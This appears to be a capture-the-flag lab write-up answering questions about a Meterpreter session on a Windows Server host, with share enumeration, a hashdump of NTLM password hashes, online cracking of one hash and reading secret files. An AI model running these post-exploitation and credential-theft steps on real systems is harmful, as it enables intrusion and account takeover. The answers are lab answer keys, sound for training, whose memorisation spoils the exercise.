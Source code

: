 

1. What is the computer name?   ACME-TEST

2. What is the target domain?   FLASH

```
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/Windows

```


3. What is the name of the share likely created by the user?  speedster

```
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run
[*] Running module against ACME-TEST (10.10.93.243)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed

``` 
  

4. What is the NTLM hash of the jchambers user?  69596c7aa1e8daee17f8e78870e25a5c

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:1a8495c3f426341daf17a5868b2c7996:::

```

5. What is the cleartext password of the jchambers user?  Trustno1

```
https://crackstation.net/
69596c7aa1e8daee17f8e78870e25a5c

Hash	Type	Result
69596c7aa1e8daee17f8e78870e25a5c	NTLM	Trustno1

```

6. Where is the "secrets.txt"  file located? (Full path of the file)  c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

```
search -f secrets.txt

Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

```

7. What is the Twitter password revealed in the "secrets.txt" file?  KDSvbsw3849!

```

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
My Twitter password is KDSvbsw3849!

```

8. Where is the "realsecret.txt" file located? (Full path of the file)  c:\inetpub\wwwroot\realsecret.txt   

```
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

```

9. What is the real secret?  The Flash is the fastest man alive

```
meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alive

```






